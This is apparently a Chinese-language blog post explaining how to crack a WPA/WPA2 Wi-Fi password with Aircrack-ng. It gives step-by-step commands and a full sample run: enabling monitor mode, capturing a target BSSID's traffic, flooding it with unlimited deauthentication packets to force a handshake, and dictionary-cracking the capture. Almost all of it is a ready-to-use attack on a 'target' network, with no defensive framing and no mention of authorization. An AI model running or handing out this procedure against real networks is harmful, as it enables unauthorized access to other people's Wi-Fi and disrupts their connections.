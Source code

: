 ```yaml
---
layout: post
title: 利用 Aircrack-ng 进行 Wifi 破解
description: Aircrack-ng 是一个与 802.11 标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP 和 WPA/WPA2-PSK 破解。
key: Aircrack-ng, Wifi, Attack
---
```


### 工具
- Linux 主机
- [Aircrack-ng](https://www.aircrack-ng.org/){:target="_blank"}
- 无线网卡

### 步骤
1. 查看网卡列表: iwconfig
2. 启用用来破解的网卡: airmon-ng start <网卡名>
3. 重新查看网卡列表，指定网卡启用后网卡名会变: iwconfig
4. 查看 wifi 列表: airodump-ng <网卡名>
5. 抓取目标 wifi 的网络包并存储: airodump-ng -c <channel> --bssid <wifi 破解目标的bssid> -w <文件名> <网卡名>
6. 获取握手包，直到出现 WPA handshake: aireplay-ng -0 0 -a <bssid> <网卡名>
7. 利用字典破解 .cap 数据包: aircrack-ng -w <字典名> -b <bssid> 文件名*.cap

### 样例
```
iwconfig
airmon-ng start wlp0s20u1
iwconfig
airodump-ng wlp0s20u1mon
airodump-ng -c 6 --bssid C0:61:18:29:9D:28 -w wifiname wlp0s20u1mon
aireplay-ng -0 0 -a C0:61:18:29:9D:28 wlp0s20u1mon
aircrack-ng -w wordlist.txt -b C0:61:18:29:9D:28 wifiname*.cap
```